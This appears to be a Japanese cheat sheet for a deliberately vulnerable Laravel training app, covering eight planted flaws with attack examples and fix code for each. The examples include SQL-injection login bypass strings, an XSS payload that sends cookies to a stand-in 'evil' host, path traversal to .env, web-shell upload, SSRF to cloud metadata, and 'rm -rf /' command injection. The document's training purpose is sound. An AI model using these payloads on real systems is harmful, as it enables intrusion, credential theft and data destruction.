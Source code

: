 # 脆弱性・攻撃手法・対策カンペ

本プロジェクトに意図的に仕込まれている脆弱性と、想定される攻撃シナリオ・代表的な対策コード例をまとめたチートシートです。演習時のカンペとして活用してください。

---

## 1. ログイン機能のSQLインジェクション (`app/Http/Controllers/LoginController.php`)
- **脆弱性概要**: フォーム入力をそのまま文字列連結してSQL実行。`OR` 条件で認証を迂回できる。
- **攻撃手法例**:
  - ユーザー名: `admin' --`、パスワード: 任意 → `name = 'admin'` 判定のみでログイン。
  - パスワード: `' OR '1'='1` → 全ユーザー照合、いつでもログイン成功。
- **対策案**: プレースホルダを使い、ハッシュ済みパスワードで認証。Laravel標準の`Auth::attempt`を利用すると安全。
  ```php
  use Illuminate\Support\Facades\Auth;
  use Illuminate\Support\Facades\Hash;

  public function login(Request $request)
  {
      $credentials = $request->only('username', 'password');
      if (Auth::attempt(['name' => $credentials['username'], 'password' => $credentials['password']])) {
          $request->session()->regenerate();
          return redirect()->route('comment');
      }
      return back()->withErrors(['login' => 'ユーザー名またはパスワードが違います']);
  }
  ```

## 2. コメント投稿のストアドXSS (`resources/views/comment.blade.php`)
- **脆弱性概要**: `{!! $comment->comment !!}` でノーエスケープ出力。悪意のHTML/JSが保存・再生可能。
- **攻撃手法例**:
  - `<script>alert('XSS');</script>` を投稿し全閲覧者にアラート。
  - `<img src=x onerror="fetch('https://evil/c?k='+document.cookie)">` でCookie流出。
- **対策案**: Bladeの`{{ }}`でエスケープし、必要に応じてサニタイズやCSPを併用。
  ```php
  // resources/views/comment.blade.php
  <span class="user">{{ $comment->user }}</span>：
  {{ $comment->comment }}
  ```

## 3. 任意ファイルダウンロード (`app/Http/Controllers/DownloadController.php`)
- **脆弱性概要**: `file` パラメータを`base_path`へ連結し存在すれば返送。`../../` で機密ファイルを取得可能。
- **攻撃手法例**:
  - `/download/file?file=../../.env` で環境変数ダンプ。
  - `/download/file?file=../storage/app/database.sqlite` 等でDB取得。
- **対策案**: ダウンロード対象をホワイトリスト化し、実ディレクトリを強制する。
  ```php
  // app/Http/Controllers/DownloadController.php
  $allowed = ['manual.pdf', 'terms.txt'];
  $filename = $request->query('file');
  if (!in_array($filename, $allowed, true)) {
      abort(403);
  }
  $path = storage_path('app/downloads/' . $filename);
  if (!file_exists($path)) {
      abort(404);
  }
  return Response::download($path);
  ```

## 4. 任意ファイルアップロード (`app/Http/Controllers/UploadController.php`)
- **脆弱性概要**: 拡張子・MIME検証なし。任意ファイルが`public/uploads`に保存・公開される。
- **攻撃手法例**:
  - `shell.php` をアップし `/storage/uploads/shell.php` でRCE。
  - `.phar`などを利用した多段攻撃。
- **対策案**: バリデーション＋公開領域外に保存し、必要に応じて署名URLで配布。
  ```php
  // app/Http/Controllers/UploadController.php
  $request->validate([
      'file' => 'required|mimes:jpg,png,pdf|max:2048',
  ]);
  $path = $request->file('file')->store('uploads', 'private');
  // 公開が必要なら Storage::disk('private')->response($path) などで配布
  ```

## 5. 危険なデバッグツール (`app/Http/Controllers/DebugController.php`)
- **脆弱性概要**: `/debug` でSSRF（`file_get_contents`）、任意コマンド実行（`shell_exec`）、ユーザー情報ダンプ（`print_r`）を提供。
- **攻撃手法例**:
  - `fetch_url=http://169.254.169.254/latest/meta-data/` でクラウド認証情報窃取。
  - `command=cat /etc/passwd` や `rm -rf /` でサーバー操作。
  - `user_dump=all` で全ユーザー情報閲覧。
- **対策案**: 本番では機能を無効化し、アクセス制御を徹底。安全な代替ツールを使用。
  ```php
  // routes/web.php
  if (app()->environment('local')) {
      Route::get('/debug', [DebugController::class, 'show']);
  }

  // または DebugController 内で abort_if(!auth()->user()->is_admin, 403);
  ```

## 6. プロフィール閲覧のIDOR (`app/Http/Controllers/ProfileController.php`)
- **脆弱性概要**: `/profile?id=任意ID` で他人の情報を取得できる。権限チェックなし。
- **攻撃手法例**:
  - `/profile?id=1` などにアクセスし、他ユーザーのメールやハッシュを閲覧。
- **対策案**: ログインユーザー自身の情報のみ返す、もしくはポリシーで権限チェック。
  ```php
  use Illuminate\Support\Facades\Auth;

  public function show(Request $request)
  {
      $user = Auth::user();
      if (!$user) {
          return redirect()->route('login');
      }
      return view('profile', ['profile' => $user]);
  }
  ```

## 7. GETで状態変更できるCSRF (`app/Http/Controllers/SettingsController.php`)
- **脆弱性概要**: `/settings/update?email_notify=on` 等のGETアクセスでセッション値を変更可。CSRFトークン検証なし。外部サイトに埋め込まれた画像タグでも勝手に変更される恐れがあります。
- **攻撃手法例**:
  - 攻撃ページに `<img src="https://victim/settings/update?email_notify=on">` を埋め込み、意図せず設定変更。
- **対策案**: POST＋CSRFトークンで状態変更を行う。`VerifyCsrfToken`ミドルウェアを活かす。
  ```php
  // routes/web.php
  Route::get('/settings', [SettingsController::class, 'show']);
  Route::post('/settings/update', [SettingsController::class, 'update']);

  // resources/views/settings.blade.php
  <form method="POST" action="{{ route('settings.update') }}">
      @csrf
      <button name="email_notify" value="on">ON</button>
  </form>
  ```

## 8. 任意URLへのオープンリダイレクト (`app/Http/Controllers/RedirectController.php`)
- **脆弱性概要**: `/go?url=https://evil.example` にアクセスすると外部サイトへそのまま遷移。フィッシングに悪用可能。
- **攻撃手法例**:
  - 正規サイトのリンクに見せかけ、`/go?url=https://phishing.example` へ誘導。
- **対策案**: 遷移先をホワイトリスト化、もしくはローカルURLに限定。
  ```php
  use Illuminate\Support\Facades\URL;

  public function go(Request $request)
  {
      $target = $request->query('url', '/');
      if (!URL::isValidUrl($target) || !str_starts_with($target, config('app.url'))) {
          $target = '/';
      }
      return redirect($target);
  }
  ```

---

## 9. 追加で検証したい観点
- CSRFトークン未適用箇所、セッション固定化、SameSite設定などの確認。
- パスワード平文保存・TLS未導入といった運用面での弱点。
- レートリミットや監査ログ、権限分離の有無を点検。

---

演習では各脆弱性を発見・悪用・修正し、最終的に安全な実装へ書き換える手順をまとめてみましょう。
